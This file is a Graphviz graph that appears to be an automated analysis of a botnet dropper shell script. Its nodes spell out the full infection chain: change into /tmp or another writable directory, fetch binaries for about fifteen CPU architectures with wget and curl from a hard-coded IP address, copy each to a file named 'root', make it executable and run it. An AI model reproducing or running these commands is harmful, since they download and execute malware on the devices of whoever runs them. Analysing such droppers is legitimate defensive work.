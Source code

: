 digraph {
330 [label="cd /tmp "];
330 -> 330
332 [label="cd /var/run "];
332 -> 334 [label="||,"];
334 [label="cd /mnt "];
334 -> 336 [label="||,"];
336 [label="cd /root "];
336 -> 338 [label="||,"];
338 [label="cd / "];
338 -> 10 [label="||,"];
10 [label="wget http://185.244.25.153/bins/x86 "];
10 -> 12 [label=";,"];
12 [label="curl -O http://185.244.25.153/bins/x86 "];
12 -> 14 [label=";,"];
14 [label="cat x86 root "];
14 -> 346 [label=";,"];
346 [label="root "];
346 -> 346
348 [label="chmod +x * "];
348 -> 349 [label=";,"];
349 [label="./root root "];
349 -> 330 [label=";,"];
330 [label="cd /tmp "];
330 -> 330
332 [label="cd /var/run "];
332 -> 334 [label="||,"];
334 [label="cd /mnt "];
334 -> 336 [label="||,"];
336 [label="cd /root "];
336 -> 338 [label="||,"];
338 [label="cd / "];
338 -> 32 [label="||,"];
32 [label="wget http://185.244.25.153/bins/mips "];
32 -> 34 [label=";,"];
34 [label="curl -O http://185.244.25.153/bins/mips "];
34 -> 36 [label=";,"];
36 [label="cat mips root "];
36 -> 346 [label=";,"];
346 [label="root "];
346 -> 346
348 [label="chmod +x * "];
348 -> 349 [label=";,"];
349 [label="./root root "];
349 -> 330 [label=";,"];
330 [label="cd /tmp "];
330 -> 330
332 [label="cd /var/run "];
332 -> 334 [label="||,"];
334 [label="cd /mnt "];
334 -> 336 [label="||,"];
336 [label="cd /root "];
336 -> 338 [label="||,"];
338 [label="cd / "];
338 -> 54 [label="||,"];
54 [label="wget http://185.244.25.153/bins/mpsl "];
54 -> 56 [label=";,"];
56 [label="curl -O http://185.244.25.153/bins/mpsl "];
56 -> 58 [label=";,"];
58 [label="cat mpsl root "];
58 -> 346 [label=";,"];
346 [label="root "];
346 -> 346
348 [label="chmod +x * "];
348 -> 349 [label=";,"];
349 [label="./root root "];
349 -> 330 [label=";,"];
330 [label="cd /tmp "];
330 -> 330
332 [label="cd /var/run "];
332 -> 334 [label="||,"];
334 [label="cd /mnt "];
334 -> 336 [label="||,"];
336 [label="cd /root "];
336 -> 338 [label="||,"];
338 [label="cd / "];
338 -> 76 [label="||,"];
76 [label="wget http://185.244.25.153/bins/arm "];
76 -> 78 [label=";,"];
78 [label="curl -O http://185.244.25.153/bins/arm "];
78 -> 80 [label=";,"];
80 [label="cat arm root "];
80 -> 346 [label=";,"];
346 [label="root "];
346 -> 346
348 [label="chmod +x * "];
348 -> 349 [label=";,"];
349 [label="./root root "];
349 -> 330 [label=";,"];
330 [label="cd /tmp "];
330 -> 330
332 [label="cd /var/run "];
332 -> 334 [label="||,"];
334 [label="cd /mnt "];
334 -> 336 [label="||,"];
336 [label="cd /root "];
336 -> 338 [label="||,"];
338 [label="cd / "];
338 -> 98 [label="||,"];
98 [label="wget http://185.244.25.153/bins/arm5 "];
98 -> 100 [label=";,"];
100 [label="curl -O http://185.244.25.153/bins/arm5 "];
100 -> 102 [label=";,"];
102 [label="cat arm5 root "];
102 -> 346 [label=";,"];
346 [label="root "];
346 -> 346
348 [label="chmod +x * "];
348 -> 349 [label=";,"];
349 [label="./root root "];
349 -> 330 [label=";,"];
330 [label="cd /tmp "];
330 -> 330
332 [label="cd /var/run "];
332 -> 334 [label="||,"];
334 [label="cd /mnt "];
334 -> 336 [label="||,"];
336 [label="cd /root "];
336 -> 338 [label="||,"];
338 [label="cd / "];
338 -> 120 [label="||,"];
120 [label="wget http://185.244.25.153/bins/arm6 "];
120 -> 122 [label=";,"];
122 [label="curl -O http://185.244.25.153/bins/arm6 "];
122 -> 124 [label=";,"];
124 [label="cat arm6 root "];
124 -> 346 [label=";,"];
346 [label="root "];
346 -> 346
348 [label="chmod +x * "];
348 -> 349 [label=";,"];
349 [label="./root root "];
349 -> 330 [label=";,"];
330 [label="cd /tmp "];
330 -> 330
332 [label="cd /var/run "];
332 -> 334 [label="||,"];
334 [label="cd /mnt "];
334 -> 336 [label="||,"];
336 [label="cd /root "];
336 -> 338 [label="||,"];
338 [label="cd / "];
338 -> 142 [label="||,"];
142 [label="wget http://185.244.25.153/bins/arm7 "];
142 -> 144 [label=";,"];
144 [label="curl -O http://185.244.25.153/bins/arm7 "];
144 -> 146 [label=";,"];
146 [label="cat arm7 root "];
146 -> 346 [label=";,"];
346 [label="root "];
346 -> 346
348 [label="chmod +x * "];
348 -> 349 [label=";,"];
349 [label="./root root "];
349 -> 330 [label=";,"];
330 [label="cd /tmp "];
330 -> 330
332 [label="cd /var/run "];
332 -> 334 [label="||,"];
334 [label="cd /mnt "];
334 -> 336 [label="||,"];
336 [label="cd /root "];
336 -> 338 [label="||,"];
338 [label="cd / "];
338 -> 164 [label="||,"];
164 [label="wget http://185.244.25.153/bins/ppc "];
164 -> 166 [label=";,"];
166 [label="curl -O http://185.244.25.153/bins/ppc "];
166 -> 168 [label=";,"];
168 [label="cat ppc root "];
168 -> 346 [label=";,"];
346 [label="root "];
346 -> 346
348 [label="chmod +x * "];
348 -> 349 [label=";,"];
349 [label="./root root "];
349 -> 330 [label=";,"];
330 [label="cd /tmp "];
330 -> 330
332 [label="cd /var/run "];
332 -> 334 [label="||,"];
334 [label="cd /mnt "];
334 -> 336 [label="||,"];
336 [label="cd /root "];
336 -> 338 [label="||,"];
338 [label="cd / "];
338 -> 186 [label="||,"];
186 [label="wget http://185.244.25.153/bins/m68k "];
186 -> 188 [label=";,"];
188 [label="curl -O http://185.244.25.153/bins/m68k "];
188 -> 190 [label=";,"];
190 [label="cat m68k root "];
190 -> 346 [label=";,"];
346 [label="root "];
346 -> 346
348 [label="chmod +x * "];
348 -> 349 [label=";,"];
349 [label="./root root "];
349 -> 330 [label=";,"];
330 [label="cd /tmp "];
330 -> 330
332 [label="cd /var/run "];
332 -> 334 [label="||,"];
334 [label="cd /mnt "];
334 -> 336 [label="||,"];
336 [label="cd /root "];
336 -> 338 [label="||,"];
338 [label="cd / "];
338 -> 208 [label="||,"];
208 [label="wget http://185.244.25.153/bins/x86_64 "];
208 -> 210 [label=";,"];
210 [label="curl -O http://185.244.25.153/bins/x86_64 "];
210 -> 212 [label=";,"];
212 [label="cat x86_64 root "];
212 -> 346 [label=";,"];
346 [label="root "];
346 -> 346
348 [label="chmod +x * "];
348 -> 349 [label=";,"];
349 [label="./root root "];
349 -> 330 [label=";,"];
330 [label="cd /tmp "];
330 -> 330
332 [label="cd /var/run "];
332 -> 334 [label="||,"];
334 [label="cd /mnt "];
334 -> 336 [label="||,"];
336 [label="cd /root "];
336 -> 338 [label="||,"];
338 [label="cd / "];
338 -> 230 [label="||,"];
230 [label="wget http://185.244.25.153/bins/spc "];
230 -> 232 [label=";,"];
232 [label="curl -O http://185.244.25.153/bins/spc "];
232 -> 234 [label=";,"];
234 [label="cat spc root "];
234 -> 346 [label=";,"];
346 [label="root "];
346 -> 346
348 [label="chmod +x * "];
348 -> 349 [label=";,"];
349 [label="./root root "];
349 -> 330 [label=";,"];
330 [label="cd /tmp "];
330 -> 330
332 [label="cd /var/run "];
332 -> 334 [label="||,"];
334 [label="cd /mnt "];
334 -> 336 [label="||,"];
336 [label="cd /root "];
336 -> 338 [label="||,"];
338 [label="cd / "];
338 -> 252 [label="||,"];
252 [label="wget http://185.244.25.153/bins/ppc440fp "];
252 -> 254 [label=";,"];
254 [label="curl -O http://185.244.25.153/bins/ppc440fp "];
254 -> 256 [label=";,"];
256 [label="cat ppc440fp root "];
256 -> 346 [label=";,"];
346 [label="root "];
346 -> 346
348 [label="chmod +x * "];
348 -> 349 [label=";,"];
349 [label="./root root "];
349 -> 330 [label=";,"];
330 [label="cd /tmp "];
330 -> 330
332 [label="cd /var/run "];
332 -> 334 [label="||,"];
334 [label="cd /mnt "];
334 -> 336 [label="||,"];
336 [label="cd /root "];
336 -> 338 [label="||,"];
338 [label="cd / "];
338 -> 274 [label="||,"];
274 [label="wget http://185.244.25.153/bins/mips64 "];
274 -> 276 [label=";,"];
276 [label="curl -O http://185.244.25.153/bins/mips64 "];
276 -> 278 [label=";,"];
278 [label="cat mips64 root "];
278 -> 346 [label=";,"];
346 [label="root "];
346 -> 346
348 [label="chmod +x * "];
348 -> 349 [label=";,"];
349 [label="./root root "];
349 -> 330 [label=";,"];
330 [label="cd /tmp "];
330 -> 330
332 [label="cd /var/run "];
332 -> 334 [label="||,"];
334 [label="cd /mnt "];
334 -> 336 [label="||,"];
336 [label="cd /root "];
336 -> 338 [label="||,"];
338 [label="cd / "];
338 -> 296 [label="||,"];
296 [label="wget http://185.244.25.153/bins/i686 "];
296 -> 298 [label=";,"];
298 [label="curl -O http://185.244.25.153/bins/i686 "];
298 -> 300 [label=";,"];
300 [label="cat i686 root "];
300 -> 346 [label=";,"];
346 [label="root "];
346 -> 346
348 [label="chmod +x * "];
348 -> 349 [label=";,"];
349 [label="./root root "];
349 -> 330 [label=";,"];
330 [label="cd /tmp "];
330 -> 330
332 [label="cd /var/run "];
332 -> 334 [label="||,"];
334 [label="cd /mnt "];
334 -> 336 [label="||,"];
336 [label="cd /root "];
336 -> 338 [label="||,"];
338 [label="cd / "];
338 -> 318 [label="||,"];
318 [label="wget http://185.244.25.153/bins/i486 "];
318 -> 320 [label=";,"];
320 [label="curl -O http://185.244.25.153/bins/i486 "];
320 -> 322 [label=";,"];
322 [label="cat i486 root "];
322 -> 346 [label=";,"];
346 [label="root "];
346 -> 346
348 [label="chmod +x * "];
348 -> 349 [label=";,"];
349 [label="./root root "];
349 -> 330 [label=";,"];
330 [label="cd /tmp "];
330 -> 330
332 [label="cd /var/run "];
332 -> 334 [label="||,"];
334 [label="cd /mnt "];
334 -> 336 [label="||,"];
336 [label="cd /root "];
336 -> 338 [label="||,"];
338 [label="cd / "];
338 -> 340 [label="||,"];
340 [label="wget http://185.244.25.153/bins/sh4 "];
340 -> 342 [label=";,"];
342 [label="curl -O http://185.244.25.153/bins/sh4 "];
342 -> 344 [label=";,"];
344 [label="cat sh4 root "];
344 -> 346 [label=";,"];
346 [label="root "];
346 -> 346
348 [label="chmod +x * "];
348 -> 349 [label=";,"];
}
